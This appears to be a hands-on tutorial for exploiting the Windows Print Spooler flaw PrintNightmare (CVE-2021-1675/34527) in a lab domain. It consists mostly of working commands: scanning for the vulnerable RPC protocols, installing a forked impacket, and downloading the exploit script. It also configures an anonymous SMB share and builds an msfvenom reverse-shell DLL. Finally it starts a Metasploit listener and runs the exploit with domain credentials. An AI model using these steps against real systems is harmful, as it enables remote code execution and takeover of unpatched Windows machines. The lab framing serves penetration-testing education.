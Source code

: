 ## Scanning Vulnerable hosts with rpcdump.py

```powershell
# rpcdump.py @DC-IP | egrep 'MS-RPRN|MS-PAR'
$ rpcdump.py @192.168.1.10 | egrep 'MS-RPRN|MS-PAR'
```

**_Expected Output :_**

```
Protocol: [MS-RPRN]: Print System Remote Protocol 
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol
```


![](https://i.imgur.com/GkOuslZ.png)


### Preparation in Kali

Open a terminal and enter the following commands. This will get an alternate package of impacket and will download the python script needed for this exploit

```powershell
$ cd /tmp/
$ sudo pip3 uninstall impacket
$ git clone https://github.com/cube0x0/impacket
$ cd impacket
$ sudo python3 ./setup.py install
$ wget https://raw.githubusercontent.com/cube0x0/CVE-2021-1675/main/CVE-2021-1675.py
```


![exploit for the PrintNightmare](https://i.imgur.com/jCILEM9.png)



The script will need to download a malicious DLL file. So we need a share and for this, we will create an `smb` server on kali.

Type in the following command to config the `smb` server to point to the tmp directory on your kali machine. We are using this `tmp` directory because when rebooting kali all will be gone. But you can choose any directory you want. Just make sure it has the correct rights to be used as a public share.

```shell
$ sudo nano /etc/samba/smb.conf
```

Put in the following config

```
[global]
    map to guest = Bad User
    server role = standalone server
    usershare allow guests = yes
    idmap config * : backend = tdb
    smb ports = 445

[smb]
    comment = Samba
    path = /tmp/
    guest ok = yes
    read only = no
    browsable = yes
    force user = smbuser
```

Start the smb server with the following command

```shell
$ sudo service smbd restart
```

Now we are going to create the DLL that we will be using to create a reverse shell. Type in the following command and change the IP to your kali machine IP and copy the dll to the tmp directory

```powershell
$ msfvenom -f dll -p windows/x64/shell_reverse_tcp LHOST=10.0.0.132 LPORT=443 -o reverse.dll

$ cp reverse.dll /tmp
```

![](https://i.imgur.com/MSwwJpV.png)
Next we will start a listener with `msfconsole`. Type in the following commands

```powershell
$ msfconsole
msf6 > use multi/handler
msf6 > set PAYLOAD windows/x64/shell_reverse_tcp
msf6 > set LHOST 10.0.0.132
msf6 > set LPORT 443
msf6 > run
```

![exploit the PrintNightmare](https://www.thedutchhacker.com/wp-content/uploads/2021/07/image-3.png)

## Explo Exploit the PrintNightmare

Navigate to the tmp directory as that is where we have our py file. Type in the following command to start the exploit. Please do change the IP address to your lab environment. The first Ip is the Windows machine and the second the kali

```
sudo python3 CVE-2021-1675.py marvel.local/fcastle:Password1@10.0.0.117 '\\192.168.0.157\smb\reverse.dll
```

![exploit the PrintNightmare](https://www.thedutchhacker.com/wp-content/uploads/2021/07/image-4-1024x876.png)

## Reference

- [CVE-2021-34527 – Security Update Guide – Microsoft – Windows Print Spooler Remote Code Execution Vulnerability](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527)
- [GitHub – cube0x0/CVE-2021-1675: C# and Impacket implementation of PrintNightmare CVE-2021-1675/CVE-2021-34527](https://github.com/cube0x0/CVE-2021-1675)
